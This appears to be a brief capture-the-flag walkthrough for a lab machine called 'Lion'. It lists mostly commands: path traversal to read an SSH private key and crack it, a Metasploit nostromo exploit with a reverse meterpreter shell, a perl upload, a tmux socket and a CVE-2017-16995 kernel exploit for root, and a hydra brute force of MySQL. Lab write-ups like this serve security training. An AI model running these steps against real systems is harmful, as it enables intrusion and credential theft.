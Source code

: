 # Lion
## Method 1
3. http://lion.thm:5555/?page=../../../home/gloria/.ssh/id_rsa
4. `chmod 600 id_rsa`
5. `ssh2john id_rsa > for_john&&john for_john --wordlist=/usr/share/wordlists/rockyou.txt`
6. `ssh -i id_rsa gloria@lion.thm`
## Method 2
### ExploitDB
1. https://www.exploit-db.com/exploits/47837
### Msfconsole
1. `use exploit/multi/http/nostromo_code_exec`
2. `set rport 8080`
3. `set rhost lion.thm`
4. `set payload linux/x86/meterpreter/reverse_tcp`
5. `set lhost tun0`
6. `exploit`
## Method 3
1. http://lion.thm/upload/
2. Executes `perl` file


## Privilage Esc. 1
1. `/usr/bin/tmux -S /.dev/session`
## Priv Esc. 2
1. https://github.com/gugronnier/CVE-2017-16995/blob/master/exploit-poc-pentest.c
2. `gcc --static exploit-poc-pentest.c -o exploit-poc-pentest` and upload it
3. `chmod +x ./exploit-poc-pentest`
4. `./exploit-poc-pentest`
## Flags
	cat /home/gloria/user.txt
	cat /home/marty/user.txt (Reversed)
	cat /home/alex/user.txt (Rot13)
	cat /root/.flag
	cat /opt/code/server.py
		MySQL: db-> blog, table-> users, id-> 140
		`hydra -l root -P /usr/share/wordlists/rockyou.txt lion.thm mysql`

